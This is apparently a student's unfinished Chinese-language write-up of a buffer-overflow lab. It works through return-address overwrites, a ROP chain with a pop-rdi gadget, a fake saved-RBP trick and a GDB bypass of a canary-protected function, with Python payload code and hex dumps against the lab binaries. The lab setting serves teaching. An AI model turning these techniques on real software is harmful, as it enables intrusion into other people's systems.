


# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
 1. **锁定目标**：反汇编发现隐藏函数 `func1`（地址 `0x401216`），其包含 `puts` 调用，确定为跳转目标。
  2. **定位漏洞**：`func` 函数中 `strcpy` 存在栈溢出。指令 `lea -0x8(%rbp),%rax` 表明缓冲区始于 `rbp-0x8`。
  3. **计算偏移**：
     *   目标是覆盖 Return Address。
     *   栈布局：`Buffer (8 bytes)` -> `Saved RBP (8 bytes)` -> `Return Address`。
     *   **Offset** = 8 (Buffer) + 8 (Saved RBP) = **16 字节**。
     *   故需填充 16 字节垃圾数据，随后写入 `func1` 地址。


- **解决方案**：
 Payload 结构为：`[16字节 Padding] + [8字节 Address]`。
  
  **Python 构造逻辑**：
  ```python
  padding = b'A' * 16                     # 填满 Buffer 和 RBP
  addr = (0x401216).to_bytes(8, 'little') # func1 地址转为小端序

  ```

   **Payload 二进制视图**：
  ```text
  00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
  00000010  16 12 40 00 00 00 00 00                           |..@.....|
  ```

- **结果**：
  


### Problem 2:
- **分析**：
1. **目标约束**：目标函数 `func2` (`0x401216`) 会检查第一个参数 `%edi` 是否等于 `0x3f8`。
     ```asm
     401222: 89 7d fc             mov    %edi,-0x4(%rbp)
     401225: 81 7d fc f8 03 00 00 cmpl   $0x3f8,-0x4(%rbp) # 检查参数
     ```
  2. **技术难点**：x86-64 架构下参数通过寄存器传递（Arg1 在 `%rdi`）。仅通过栈溢出覆盖返回地址无法直接修改寄存器，需使用 **ROP** 技术。
  3. **寻找 Gadget**：在程序中找到现成的指令片段 `pop %rdi; ret` (位于 `0x4012c7`)。
     *   该 Gadget 的作用是将栈顶数据弹出至 `%rdi`，然后返回，从而实现参数赋值。
  4. **攻击链构造**：
     *   `[Padding 16字节]`：填满缓冲区。
     *   `[Gadget 地址]`：覆盖原返回地址，程序跳转至 `pop %rdi`。
     *   `[0x3f8]`：作为参数布置在栈上，被 Gadget 捕获放入 `%rdi`。
     *   `[func2 地址]`：Gadget 执行 `ret` 后，程序跳转至最终目标。

- **解决方案**：
  Payload 结构：`[Padding] + [Gadget Addr] + [Param Value] + [Target Addr]`

 **Python 构造逻辑**：
  ```python
  padding = b'A' * 16
  gadget  = (0x4012c7).to_bytes(8, 'little') # pop rdi; ret
  param   = (0x3f8).to_bytes(8, 'little')    # 参数值
  target  = (0x401216).to_bytes(8, 'little') # func2
  
  payload = padding + gadget + param + target
  ```

**Payload 二进制视图**：
  ```text
  00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
  00000010  c7 12 40 00 00 00 00 00  f8 03 00 00 00 00 00 00  |..@.............|
  00000020  16 12 40 00 00 00 00 00                           |..@.....|
  ```

- **结果**：
  


### Problem 3: 
- **分析**： 
 1.  **确定攻击路径**：我的目标是执行 `func1` 并输出 114。通过 `objdump` 分析 `func1`，发现其在地址 `0x401216` 处会检查 `%edi` 是否为 `0x72`。如果直接跳转到这里，需要通过 Shellcode 设置寄存器，较为繁琐。
  2.  **发现捷径**：我发现 `func1` 的打印逻辑（即输出 "Your lucky number..."）是从地址 `0x40122b` 开始的。如果直接跳转到 `0x40122b`，就可以跳过开头的参数检查指令。
  3.  **遇到的问题**：当我尝试直接覆盖返回地址跳转到 `0x40122b` 时，程序报错（Segfault/Bus Error）。
  4.  **深入分析原因**：`func1` 内部执行了 `mov %rax, -0x40(%rbp)`，试图向栈上写入数据。由于我通过跳转跳过了函数开头的 `push %rbp` 等栈帧初始化操作，此时 `%rbp` 是无效值（被我的 Padding 覆盖成了 `0x4141...`），导致写入非法内存地址。
  5.  **修正方案**：为了修复 crash，我需要在 Padding 中伪造一个合法的 `%rbp`。通过查看反汇编中的全局变量，我发现了地址 `0x403510` 位于可读写的 `.data` 段，且位置固定。
  6.  **计算**：为了让 `func1` 的写入操作 (`rbp - 0x40`) 落在这个安全区域，我构造的伪造 `%rbp` 应为 `0x403510 + 0x40 = 0x403550`。


- **解决方案**： 构造的 Payload 结构为：`[32字节 Padding] + [Fake RBP (0x403550)] + [Target Address (0x40122b)]`。

- **结果**：  

### Problem 4: 
- **分析**：

1.  **设置 Canary**：
      在 `func` 函数开头 (地址 `136c`)，程序从 `%fs:0x28` 寄存器处读取一个随机生成的 8 字节数值（金丝雀），并将其存储在栈底 `%rbp-0x8` 的位置：
      ```asm
      136c: 64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax   #取随机值
      1375: 48 89 45 f8          	mov    %rax,-0x8(%rbp) #存入栈底
      ```
  
  2.  **检查 Canary**：
      在函数准备返回之前 (地址 `140a`)，程序从 `%rbp-0x8` 取出该值，并与 `%fs:0x28` 中的原值进行减法对比：
      ```asm
      140a: 48 8b 45 f8          	mov    -0x8(%rbp),%rax # 取出栈上的值
      140e: 64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax   # 比较
      1417: 74 05                	je     141e            # 若相等则正常返回
      1419: e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt> # 否则报错
      ```

**结论**：由于死循环逻辑导致难以通过正常溢出触发 Canary 报错，且题目暗示“不需要写代码”，因此我采用动态调试方法直接获取隐藏信息。

- **解决方案**：使用 GDB 直接跳转到隐藏函数 `func1`，绕过所有检查逻辑，直接获取通关提示。
  操作步骤：
  1. 启动调试：`gdb problem4`
  2. 强制跳转：`jump func1`
  3. 获取输出：程序直接打印出隐藏的通关提示

- **结果**：

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
